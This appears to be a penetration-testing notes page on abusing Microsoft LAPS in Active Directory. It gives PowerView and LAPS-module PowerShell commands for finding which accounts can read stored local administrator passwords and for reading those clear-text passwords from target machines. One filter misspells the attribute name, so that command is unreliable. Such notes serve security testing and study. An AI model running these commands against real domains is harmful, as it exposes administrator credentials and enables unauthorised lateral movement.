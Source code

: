 # LAPS

## Theory

LPAS (Local Administrator Password Solution) provides centralized storage of local users in AD with periodic randomizing

Is stored in clear text but the transmission is encrypted (Kerberos).

## Abuse

### Enumeration

If LAPS is enabled a library AdmPwd.dll can be found in the C:\Program Files\LAPS\CSE\ directory. To find user who can read the passwords in clear text machines in OUs using powerview:

{% code overflow="wrap" %}
```powershell
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwn') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_}
```
{% endcode %}

To find OU where LAPS is in user import the LAPS module (can be copied across machines):

{% code overflow="wrap" %}
```powershell
Import-Module ./AdmPwd.PS.psd1
Find-AdmPwdExtendedRights -Identity OUDistinguishedName
```
{% endcode %}

### Exploitation

With a user that has the Rights use the following command to read the clear-text passwords:

#### Powerview

{% code overflow="wrap" %}
```powershell
Get-DomainObject -Identity <targetmachine$> | select -ExpandProperty ms-mcs-admpwd
```
{% endcode %}

#### LAPS Module

```powershell
Get-AdmPwdPassword -ComputerName <$targetmachine>
```
